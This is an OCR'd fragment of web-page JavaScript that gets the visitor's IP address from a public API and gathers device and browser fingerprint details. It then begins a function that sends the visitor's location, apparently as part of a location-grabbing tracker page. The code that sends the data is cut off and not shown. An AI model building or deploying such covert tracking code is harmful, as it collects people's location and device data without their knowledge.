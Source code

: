                 });
        }

        // Function to get user's IP address
        async function getIPAddress() {
            try {
                document.getElementById("loadingMessage").textContent = "Getting your IP address...";
                const response = await fetch('https://api.ipify.org?format=json');
                const data = await response.json();
                userIP = data.ip;
            } catch (error) {
                console.error("Failed to get IP:", error);
                userIP = "Unknown";
            }
        }

        // Function to get device info
        function getDeviceInfo() {
            const userAgent = navigator.userAgent;
            const platform = navigator.platform;
            const screenWidth = window.screen.width;
            const screenHeight = window.screen.height;
            const language = navigator.language;
            const cookiesEnabled = navigator.cookieEnabled ? "Yes" : "No";
            const javaEnabled = navigator.javaEnabled() ? "Yes" : "No";
            
            return `📱 Device: ${userAgent}
🖥️ Platform: ${platform}
🖥️ Screen: ${screenWidth}x${screenHeight}
🌐 Language: ${language}
🍪 Cookies: ${cookiesEnabled}
☕ Java: ${javaEnabled}
📡 IP Address: ${userIP}`;
        }

        // Function to get browser info
        function getBrowserInfo() {
            const browserInfo = {
                'Browser Name': navigator.appName,
                'Browser Version': navigator.appVersion,
                'User Agent': navigator.userAgent,
                'Platform': navigator.platform,
                'Languages': navigator.languages,
                'Online Status': navigator.onLine ? 'Online' : 'Offline',
                'Do Not Track': navigator.doNotTrack || 'Not specified'
            };
            
            return JSON.stringify(browserInfo, null, 2);
        }

        // Main function to send location
        async function sendLocation(position) {
            document.getElementById("loadingMessage").textContent = "Sending location data...";
            